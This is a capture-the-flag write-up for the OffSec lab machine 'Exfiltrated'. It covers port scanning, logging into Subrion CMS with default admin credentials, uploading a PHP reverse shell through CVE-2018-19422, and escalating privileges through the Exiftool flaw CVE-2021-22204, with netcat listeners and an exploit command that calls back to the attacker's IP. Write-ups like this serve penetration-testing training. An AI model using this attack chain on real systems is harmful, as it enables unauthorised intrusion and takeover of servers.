


Exfiltrated was a well-structured box that provided an excellent opportunity to exploit a Subrion CMS vulnerability and perform privilege escalation via an Exiftool exploit. 

Initial enumeration led to the discovery of Subrion CMS, and default credentials allowed for access to the admin panel. 

By exploiting a file upload vulnerability, a reverse shell was obtained. Further enumeration revealed a cron job running Exiftool on uploaded images, which was leveraged to escalate privileges and capture the flag.

# Diagram

## Information Gathering

### Portscan

---

- `nmap -sS -Pn -n -T4 --open 192.168.177.163`
    
    
    
- `nmap -sS -Pn -n -T4 --open 192.168.177.163 -p-`
    
    
    
- `nmap -sVC -Pn -n -p 22,80 192.168.177.163`
    
    
    

## Enumeration

### HTTP 80
---

- [http://192.168.177.163](http://192.168.177.163) → redirects to exfiltrated.offsec
    
    
    
- `cat /etc/hosts`
    
    
    

- [http://exfiltrated.offsec/](http://exfiltrated.offsec/) → Subrion CMS
    
    
    
- [http://exfiltrated.offsec/robots.txt](http://exfiltrated.offsec/robots.txt)
    
    
    
- [http://exfiltrated.offsec/panel/](http://exfiltrated.offsec/panel/) → Panel Login. CMS v4.2.1
    
    
    

- `searchsploit Subrion CMS 4.2.1`
    
    
    

- Subrion default credentials: admin/admin
    
    
    

- [http://exfiltrated.offsec/panel/members/add/](http://exfiltrated.offsec/panel/members/add/) → made login
    
    
    
    
    
    
    

Once authenticated i tried this exploit

- https://github.com/hev0x/CVE-2018-19422-SubrionCMS-RCE

After read the exploit i decided to put an reverse shell inside the [http://exfiltrated.offsec/panel/uploads/](http://exfiltrated.offsec/panel/uploads/) 

- `cat revShell.phar`
    
    
    
- [http://exfiltrated.offsec/panel/uploads/](http://exfiltrated.offsec/panel/uploads/)
    
    
    

- [http://exfiltrated.offsec/uploads/revShell.phar](http://exfiltrated.offsec/uploads/revShell.phar)
`rlwrap nc -lvnp 80`
    
    
    

## Priv Escalation

---

- `cat /etc/cron*`
    
    
    
- `cat /opt/image-exif.sh`
    
    
    
- `ls -lh /opt/image-exif.sh`
    
    
    
- `ls -ld /var/www/html/subrion/uploads /opt/metadata`
    
    
    

Since the cron script writes EXIF metadata to a log file in `/opt/metadata` using the `exiftool` command, one possible attack vector is to exploit a symlink attack if the script does not properly handle symbolic links.

- `exiftool -ver`
    
    
    

- `searchsploit exiftool`
    
    
    

Searching more i found this repository

[https://github.com/mr-tuhin/CVE-2021-22204-exiftool.git](https://github.com/mr-tuhin/CVE-2021-22204-exiftool.git)

But wasn’t working because of the bbz

- `sudo apt-get install imagemagick djvulibre-bin exiftool`

- `python3 exploit.py 192.168.45.194 4430`
    
    
    
- [http://exfiltrated.offsec/panel/uploads/#elf_l1_Lw](http://exfiltrated.offsec/panel/uploads/#elf_l1_Lw)
    
    
    
- [http://exfiltrated.offsec/uploads/image.jpg](http://exfiltrated.offsec/uploads/image.jpg)
`rlwrap nc -lvnp 4430`
    
    
    

- `Flag.txt`
    
    